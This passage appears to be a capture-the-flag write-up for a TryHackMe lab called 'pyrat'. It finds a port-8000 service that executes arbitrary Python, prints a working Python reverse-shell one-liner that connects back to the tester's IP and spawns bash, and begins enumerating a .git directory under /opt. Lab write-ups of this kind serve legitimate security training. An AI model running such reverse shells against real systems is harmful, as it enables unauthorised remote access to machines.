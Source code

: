 We found two ports, 22 running openssh and 8000 running a python simple http server.

### Web

Let's check the web page on port 8000.

![web](1.png)

It said to try a basic connection, let's try netcat.

```terminal
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/pyrat]
└──╼ [★]$ nc 10.10.248.81 8000
hi
name 'hi' is not defined
```

We connected successfully, I typed `hi` and got an error.

If we copy that error to google we see that's it's python error.

Let's try running some python commands.

```terminal
print("hi")
hi

print(1+1)
2
```

It worked, this means that this service is executing python code.

## **Foothold**

Let's run a python reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.4.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![shell](2.png)

## **Privilege Escalation**

### www-data -> think

Doing some manual enumeration on the system we find an interesting directory in `/opt`.

```terminal
www-data@Pyrat:/$ cd /opt/dev/
www-data@Pyrat:/opt/dev$ ls -la
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
www-data@Pyrat:/opt/dev$ cd .git/
www-data@Pyrat:/opt/dev/.git$ ls
branches        config       HEAD   index  logs     refs
COMMIT_EDITMSG  description  hooks  info   objects
www-data@Pyrat:/opt/dev/.git$ cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
```